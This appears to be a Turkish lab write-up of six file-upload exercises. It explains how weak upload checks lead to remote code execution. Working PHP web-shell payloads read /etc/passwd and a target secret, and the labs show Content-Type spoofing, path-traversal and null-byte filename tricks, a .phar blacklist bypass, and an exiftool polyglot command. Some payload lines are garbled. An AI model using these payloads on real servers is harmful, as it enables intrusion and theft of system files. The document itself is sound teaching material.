

## Introduction

Bir web uygulamasında kullanıcıların dosya yüklemesine izin veriliyorsa, sunucu bu dosyayı yeterince kontrol etmiyorsa (örn; adını, uzantısını, dosya türünü, içeriğini, boyutunu) saldırgan kötü amaçlı dosyalar yükleyebilir. Eğer yüklenen dosya sunucu tarafından çalıştırılabiliyorsa bu durum remote code execution gibi ciddi sonuçlara yol açabilir. 

> Yetersiz dosya kontrolü → Kötü amaçlı dosya yükleme → Dosyanın sunucu tarafından çalıştırılması → RCE
> 

### Sunucu yüklenen dosyayı nasıl ele alır?

Dosya yüklendikten sonra sunucu, dosyanın **uzantısına ve kendi yapılandırmasına** göre nasıl davranacağını belirler.

```bash
Dosya yüklenir
      ↓
Nereye kaydedildi?
      ↓
Web üzerinden erişilebiliyor mu?
      ↓
Dosya türü/uzantısı belirlenir
      ↓
Sunucu bu türü çalıştırabiliyor mu?
  ↓                       ↓
 evet                    hayır
  ↓                       ↓
Kod çalıştırılır       Dosya statik sunulur veya 
  ↓                             hata döner
 RCE               
```

Bir dosyanın yüklenebilmesi, onun çalıştırılabileceği anlamına gelmez. Sunucu yapılandırması, dosyanın çalıştırılıp çalıştırılmayacağını belirler.

### Web Shell nedir?

Sunucuda çalışan ve http istekleri üzerinden sunucuya komut göndermeyi sağlayan kötü amaçlı scriptlerdir. Web shell üzerinden saldırgan dosyaları okuyabilir, değiştirebilir, yazabilir ve hassas verileri çalabilir.

> php web shell yüklenir→ http request → sunucu → php çalışır → komut çalıştırılır
> 

.php yüklemek tek başına RCE değildir. `/uploads/shell.php` dosyasına istek attığında sunucu php'yi gerçekten çalıştırıyorsa problem ortaya çıkar. Çalışması için 2 koşulun birlikte gerçekleşmesi gerekiyor:

1. Server-side script yüklenebiliyor
2. Sunucu bu script'i çalıştırabiliyor

### Flawed file type validation

Flawed file type validation, web uygulamasının yüklenen dosyanın türünü yanlış veya yetersiz şekilde doğrulaması sonucu oluşan zafiyettir.

Örneğin uygulama, dosyanın gerçekten resim olup olmadığını kontrol etmek yerine sadece `Content-Type` değerine güvenebilir:

```
filename="shell.php"
Content-Type: image/jpeg
```

Uygulama `image/jpeg` gördüğü için dosyayı kabul eder. Ancak dosyanın gerçek içeriği PHP kodudur.

## Cheat Sheet 
Check out the related File Upload Cheat Sheet:
**[File Upload Cheat Sheet](/cheat-sheets/#file-upload)**

## Labs

### **01. Remote code execution via web shell upload**

Login işlemi sırasında avatar yüklenebiliyor. Avatar, `POST` request ile `multipart/form-data` kullanılarak web uygulamasına gönderiliyor. 

Request içerisinde:

```
Content-Disposition: form-data; name="avatar"; filename="favicon.png"
Content-Type: image/png
```

ve bunun altında yüklenen dosyanın içeriği bulunuyor. Burp Suite burada dosyanın binary içeriğini gösteriyor. Upload işleminin response'unda “The file avatars/favicon.png has been uploaded.” mesajı dönüyor. Böylece dosyanın `/avatars/` dizinine kaydedildiğini öğreniyorum.



Daha sonra uygulama avatarı göstermek için dosyaya **GET request** gönderiyor:


Dosya adını ve içeriğini değiştirebildiğimiz için `filename` değerini PHP dosyası olacak şekilde değiştiriyoruz ve PHP kodu ekliyorum.

- Injection

```bash
<?php echo file_get_contents('/etc/passwd'); ?>
```


Dosya `/avatars/shell.php` olarak kaydediliyor ve isteği gönderildiğinde sunucu PHP dosyasını kod olarak çalıştırıyor ve `/etc/passwd` dosyasının içeriğini response içerisinde döndürüyor.


Labın amacı `/home/carlos/secret` dosyasının içeriğini elde etmekti. Bunun için aynı web shell üzerinden hedef dosyanın yolunu değiştiriyorum.


Dosya tekrar `/avatars/shell.php` olarak yükleniyor ve isteği gönderiliyor. Sunucu PHP kodunu çalıştırarak `/home/carlos/secret` dosyasının içeriğini response içerisinde döndürüyor.

- Injection

```bash
<?php echo file_get_contents('/home/carlos/secret'); ?>
```


Uygulama `.php` uzantılı dosyaların yüklenmesini engellemedi. Yüklediğimiz PHP dosyası sunucu tarafından çalıştırılabildi ve **web shell üzerinden RCE** elde edildi.

```
Unrestricted Upload → PHP Upload → Web Shell → RCE
```

### **02. Web shell upload via Content-Type restriction bypass**

Bu labda da login yaptıktan sonra avatar yüklenebiliyor. Avatar, `POST` request ile `multipart/form-data` kullanılarak gönderiliyor.

Request içerisinde:

```
Content-Disposition: form-data; name="avatar"; filename="image1.jpg"
Content-Type: image/jpeg
```

ve altında dosyanın içeriği bulunuyor.


Avatar yüklendikten sonra uygulama dosyayı göstermek için GET request gönderiyor.


`filename` değerini `shell.php` olarak değiştirip dosya içeriğini PHP koduyla değiştiriyorum:

```
<?php echo file_get_contents('/etc/passwd');?>
```

Ancak `Content-Type` değerini:

```
Content-Type: image/jpeg
```

olarak bırakıyorum.


GET isteği ile shell.php çağırıldığında kullanıcı bilgilerine ulaşıyorum.


Uygulama Content-Type değerini kontrol ediyor, ancak bu değerin dosyanın gerçek içeriğiyle uyuşup uyuşmadığını kontrol etmiyor. `application/x-php` gönderildiğinde dosya reddedilirken, PHP içeriğini `image/jpeg` olarak gönderdiğimde upload kabul ediliyor. Böylece Content-Type restriction bypass gerçekleştiriliyor.


GET request ile `shell.php` çağrıldığında PHP kodu çalışıyor ve `/etc/passwd` içeriği elde ediliyor.

Labın istediği dosya için:

```
<?phpechofile_get_contents('/home/carlos/secret');?>
```

kullanılarak secret içeriği elde ediliyor.


### **03. Web shell upload via path traversal**

Aynı şekilde login ekranında avatar yükleniyor ve 2 adet istek alıyoruz:

- **POST** → Resmin yüklendiği istek → `POST /my-account/avatar`
- **GET** → Resmin gösterildiği istek → `GET /files/avatars/image.jpg`

Bu iki isteği Repeater'a gönderdikten sonra **POST isteğinin içeriğini** inceliyorum.


```bash
Content-Disposition: form-data; name="avatar"; filename="image2.jpg"
Content-Type: image/jpeg
```

Burada `filename` yüklenen dosyanın adını, `Content-Type` ise dosyanın MIME türünü belirtir.

Daha sonra `filename` değerini `shell.php` olarak değiştirip PHP kodunu yüklediğimde dosya:

```
/files/avatars/shell.php
```

olarak kaydediliyor.


GET request ile `shell.php` dosyasını çağırdığımda PHP kodunun çalışmadığını, kodun kendisinin response olarak döndüğünü görüyorum.


Bu, `/files/avatars/` dizininde PHP dosyalarının çalıştırılmadığını gösteriyor.

Bu nedenle `filename` parametresini **Path Traversal** kullanarak değiştiriyorum:

```
../shell.php
```

Böylece dosyanın `/files/avatars/` yerine bir üst dizine, yani:

```
/files/shell.php
```

olarak kaydedilmesini sağlıyorum.


Ardından:

```
GET /files/shell.php
```

isteğini gönderdiğimde **404 Not Found** alıyorum. Bunun nedeni dosyanın hâlâ `/files/avatars/` dizininde bulunması.


Bunun üzerine `../` ifadesini **URL encode** ederek tekrar deniyorum:

```
filename="..%2fshell.php"
```


Burada `%2f`, `/` karakterinin URL-encoded halidir. Sunucu bunu decode ederek yorumluyor ve path traversal gerçekleşiyor. Böylece dosyanın `/files/avatars/` yerine bir üst dizin olan `/files/` dizinine kaydedilmesini sağlıyorum.


Labın istediği `/home/carlos/secret` dosyasını okumak için:

```
<?phpechofile_get_contents('/home/carlos/secret');?>
```

kullanıyorum.


### **04. Web shell upload via extension blacklist bypass**

Bu labda da avatar upload işlemi POST request ile multipart/form-data kullanılarak gerçekleştiriliyor. Upload request'inde filename ve Content-Type bilgileri bulunuyor. Avatar yüklendikten sonra uygulama, dosyayı göstermek için ilgili dosyaya GET request gönderiyor.

Bu labda farklı olarak uygulamanın **`.php` uzantısını blacklist ile engellediğini** görüyorum.

`filename` değerini:

```
filename="shell.php"
```

olarak değiştirdiğimde upload işlemi reddediliyor.


Buradaki amaç, `.php` uzantısı yerine sunucu tarafından çalıştırılabilen ancak blacklist'te bulunmayan alternatif bir uzantı kullanarak bu kontrolü bypass etmek.

Request'i:

```
filename="shell.php5"
```

olarak değiştirdiğimde gönderme işlemi gerçekleşiyor.


Ancak sunucu tarafında .php5 çalıştırılmıyor.


Hangi uzantıların çalıştırılabildiğini bulmak için önce dosya yükleme POST request'inde deniyorum:


sonra dosyayı gösteren GET request'inde uzantıları brute force ile deniyorum


Sonuç olarak `.phar` uzantısının hem upload edilebildiğini hem de sunucu tarafından çalıştırıldığını buluyorum.

Daha sonra PHP payload'ını `.phar` uzantısıyla yükleyip dosyaya GET request göndererek PHP kodunun çalıştırıldığını ve `/home/carlos/secret` içeriğinin elde edildiğini görüyorum.


### **05. Web shell upload via obfuscated file extension**

Bu labda `.php` uzantısının doğrudan yüklenmesi engelleniyor. Bu nedenle dosya uzantısını URL encoding ve null byte kullanarak gizlemeyi deniyorum.

olarak değiştiriyorum.


`filename` değerini:

```
filename="image1.php%00.jpg"
```

olarak değiştiriyorum. Burada `%00`, **null byte** karakterinin URL-encoded halidir.


Uygulama dosya uzantısını kontrol ederken `.jpg` kısmını dikkate alarak dosyayı kabul ediyor. Ancak sunucu tarafında `%00` decode edildiğinde dosya:

```
image1.php
```

olarak işleniyor.  Daha sonra:

```
GET /files/avatars/image1.php
```

isteğini göndererek PHP dosyasını çalıştırıyorum ve `/etc/passwd` dosyasının içeriğini elde ediyorum.


Labın istediği dosya ise `/home/carlos/secret` olduğu için payload'ı:

```
<?php echo file_get_contents('/home/carlos/secret');?>
```

şeklinde değiştirerek tekrar gönderiyorum ve secret değerini elde ediyorum.


### **06. Remote code execution via polyglot web shell upload**

Bu labda önceki lablardan farklı olarak uygulama, yalnızca `filename` ve `Content-Type` değerlerini kontrol etmiyor; yüklenen dosyanın gerçekten geçerli bir image olup olmadığını da kontrol ediyor.


Bu nedenle yalnızca `Content-Type` değerini `image/jpeg` yapmak yeterli olmuyor. Gerçek bir JPEG dosyası gibi görünen ancak içerisinde PHP kodu da barındıran bir polyglot dosya oluşturarak bu kontrolü aşılması gerekiyor.


- Injection

```bash
exiftool -Comment='<?php echo "START " . file_get_contents("/home/carlos/secret") . " END"; ?>' image.jpg -o polyglot.php
```
Polyglot dosyası oluşturulduktan sonra avatar alanından `polyglot.php` yüklenir. Sunucu dosyayı geçerli bir JPEG olarak algıladığı için upload başarılı olur.


Ardından Burp Suite üzerinden:

```
GET /files/avatars/polyglot.php
```

isteği gönderilir. Sunucu dosyayı PHP olarak çalıştırır ve eklediğimiz kod `/home/carlos/secret` dosyasını okur.


Response içerisinde:

```
START [secret] END
```

şeklinde secret elde edilir. Böylece **Remote Code Execution** gerçekleştirilmiş olur.
